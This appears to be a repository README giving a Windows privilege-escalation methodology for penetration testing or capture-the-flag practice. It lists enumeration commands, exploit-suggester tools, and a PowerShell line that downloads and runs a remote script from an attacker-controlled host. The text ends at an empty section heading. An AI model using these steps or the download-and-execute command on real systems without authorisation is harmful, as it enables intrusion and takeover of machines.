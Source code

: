 # Win_Priv_Esc_Method
Windows Privilege Escalation Methodology

# Categories
* Stored Credentials
* Windows Kernel Exploit
* Applications/Drivers Exploits
* DLL Injection
* Unattended Answer File
* Insecure File/Folder Permissions
* Insecure Service Permissions
* DLL Hijacking
* Group Policy Preferences
* Unquoted Service Path
* Always Install Elevated
* Token Manipulation
* Insecure Registry Permissions
* Autologon User Credential
* User Account Control (UAC) Bypass
* Insecure Named Pipes Permissions

## General
* systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"Processor(s)" /C:"System Locale" /C:"Input Locale" /C:"Domain" /C:"Hotfix(s)"
* WMIC CPU Get DeviceID,NumberOfCores,NumberOfLogicalProcessors

* whoami
* whoami /priv
  * SeDebugPrivilege
  * SeRestorePrivilege
  * SeBackupPrivilege
  * SeTakeOwnershipPrivilege
  * SeTcbPrivilege
  * SeCreateToken Privilege
  * SeLoadDriver Privilege
  * SeImpersonate & SeAssignPrimaryToken Priv.

* whoami /groups

* net user
* net user <user>

* netstat -ano
* ipconfig /all
* route print

* tasklist /SVC > tasks.txt
* schtasks /query /fo LIST /v > schedule.txt

* netsh advfirewall show currentprofile
* netsh advfirewall firewall show rule name=all


* wmic product get name, version, vendor > apps_versions.txt
* DRIVERQUERY
* mountvol

* accesschk-2008-vista.exe /accepteula
* accesschk-2008-vista.exe -uws "Everyone" "C:\Program Files"

* reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
* reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

## Windows Kernel Exploits
* systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"Processor(s)" /C:"System Locale" /C:"Input Locale" /C:"Domain" /C:"Hotfix(s)"
  * searchsploit 
  * google

* WMIC CPU Get DeviceID,NumberOfCores,NumberOfLogicalProcessors

* Windows-Exploit-Suggester
  * python windows-exploit-suggester.py --database 2020-08-09-mssb.xls --systeminfo grandpa.txt

* Serlock
  * Config: Add to the last line the "Find-AllVulns"
  * Download and run Sherlock:
     * echo IEX(New-Object Net.WebClient).DownloadString('http://<ip>:<port>/Sherlock.ps1') | powershell -noprofile -

* Watson
  * Find .NET latest version of victim:
     * dir %windir%\Microsoft.NET\Framework /AD     
   * Fow older than windows 10 download zip version of watson v.1: https://github.com/rasta-mouse/Watson/tree/486ff207270e4f4cadc94ddebfce1121ae7b5437
   * Build exe to visual studio

## Applications/Drivers Exploits
* wmic product get name, version, vendor > install_apps.txt
  * searchsploit
  * google

* driverquery /v > drivers.txt
* powershell: driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', 'Path'
* powershell and specific word: Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
  * searchsploit
  * google
  

## Insecure File/Folder Permissions
